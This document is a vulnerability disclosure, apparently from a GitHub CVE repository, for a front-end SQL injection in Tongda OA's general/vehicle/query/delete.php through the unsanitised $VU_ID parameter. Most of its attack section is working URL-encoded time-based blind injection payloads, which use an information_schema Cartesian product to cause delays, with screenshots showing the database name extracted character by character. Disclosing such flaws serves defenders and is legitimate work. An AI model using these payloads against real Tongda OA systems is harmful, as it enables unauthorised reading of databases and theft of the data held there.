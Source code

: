 Tongda OA has a front-end SQL injection vulnerability

1.
Route: general/vehicle/query/delete.php

There are injected parameters: $VU_ID

The code here is very concise. When $VU_ID is not empty, the parameters are directly spliced ​​into the SQL statement. Since the parentheses are closed here, there is a bypass.

![image](https://github.com/xiatiandeyu123/cve/assets/153425025/2d607660-1c9b-4006-ac32-77946216e19b)

2.Payload
We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.
POC
```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/xiatiandeyu123/cve/assets/153425025/b344d748-f11c-445e-97d9-31c05b065190)

Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time

POC
```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/xiatiandeyu123/cve/assets/153425025/8c42e771-be57-487c-a51d-a126bace3c55)

The third digit is the character _
![image](https://github.com/xiatiandeyu123/cve/assets/153425025/5c82d37f-4b42-4234-a941-3dcd025393d0)

The fourth digit is the character o

![image](https://github.com/xiatiandeyu123/cve/assets/153425025/032600c1-2f7c-4a0f-96a4-5629660ae343)

The fifth digit is the character a

![image](https://github.com/xiatiandeyu123/cve/assets/153425025/d7c59d34-e29c-4401-a248-d0fe236deb21)
